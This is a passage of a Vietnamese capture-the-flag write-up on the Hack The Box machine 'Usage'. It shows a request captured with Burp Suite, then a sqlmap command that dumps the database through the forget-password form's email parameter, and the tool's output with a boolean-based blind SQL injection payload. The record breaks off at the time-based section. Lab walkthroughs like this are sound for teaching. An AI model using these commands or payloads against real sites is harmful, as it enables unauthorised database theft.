 ### sqlmap

Sử dụng **burpsuite** để lấy nội dung request (bỏ payload). 

![five](/assets/img/2024-05-03-HTB-Usage/5.jpg)

Sử dụng **sqlmap** để thực hiện SQLi với request vừa lưu. Sử dụng parameter *email* để khai thác

```python
┌──(kali㉿kali)-[~/HTB-Usage]
└─$ sudo sqlmap -r request.txt --level=5 --risk=3 -p email --dump --batch
        ___
       __H__                                                                                                                                                                                                            
 ___ ___["]_____ ___ ___  {1.8.4#stable}                                                                                                                                                                                
|_ -| . [.]     | .'| . |                                                                                                                                                                                               
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[23:57:30] [INFO] parsing HTTP request from 'request.txt'
[23:57:30] [INFO] resuming back-end DBMS 'mysql' 
[23:57:30] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=MIkLtbJSRbSB12kmbrAHgIrQmZ5sfn3GNujMZt9v&email=admin@mail.com' AND 7936=(SELECT (CASE WHEN (7936=7936) THEN 7936 ELSE (SELECT 2488 UNION SELECT 3253) END))-- dkmV

    Type: time-based blind
```